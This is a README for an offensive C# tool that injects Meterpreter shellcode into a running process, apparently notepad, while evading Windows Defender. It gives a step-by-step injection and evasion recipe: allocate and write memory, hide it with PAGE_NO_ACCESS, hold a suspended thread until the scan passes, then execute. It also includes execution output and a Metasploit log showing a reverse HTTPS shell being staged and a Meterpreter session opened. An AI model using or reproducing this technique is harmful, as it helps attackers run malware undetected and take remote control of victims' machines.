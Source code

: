 # Suspended Thread Injection
Another meterpreter injection technique using C# that attempts to bypass Defender.

# Introduction
This code was written after reading [Bypassing Windows Defender Runtime Scanning](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) by **F-Secure Labs**. The technique I have written isn't the same but it got me thinking about how I can inject meterpreter into a remote process and go under the Defender radar.

The technique is quite simple:

- Open a remote process using `OpenProcess`.
- Decrypt the meterpreter payload in memory.
- Allocate some memory in the remote process using `VirtualAllocEx`, ensuring we assign the correct permissions to write to the memory of course.
- Write our payload into the allocated memory using `WriteProcessMemory`.
- Protect the memory using `VirtualProtectEx`, setting the protection to `PAGE_NO_ACCESS`.
- Create a new suspended thread using `CreateRemoteThread`.
- Sleep for 10 seconds while Defender scans the remote process memory for malicious code.
- Change the protection on the memory using `VirtualProtectEx`, setting the protection to `PAGE_EXECUTE_READ_WRITE`.
- Resuming the remote thread using `ResumeThread`

It would appear that protecting the page with `PAGE_NO_ACCESS` containing our meterpreter shellcode is not scanned by Defender and is not detected. By suspending the thread upon creation we are able to 'hold' the shellcode in memory until Defender has done it's scan then execute the shellcode when Defender has finished.

# Important
Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] OpenProcess with PID 49416.
[+] VirtualAllocEx (PAGE_EXECUTE_READ_WRITE) on 0x2C4.
[+] WriteProcessMemory to 0x247A8CE0000.
[+] VirtualProtectEx (PAGE_NO_ACCESS) on 0x247A8CE0000.
[+] CreateRemoteThread (suspended) to 0x247A8CE0000.
[+] Sleeping whilst Defender scans the remote process.
[+] VirtualProtectEx (PAGE_EXECUTE_READ_WRITE) on 0x247A8CE0000.
[+] Resume thread 0x368.
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: lsezjczd) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:60433) at 2021-10-07 08:32:00 +0100
```
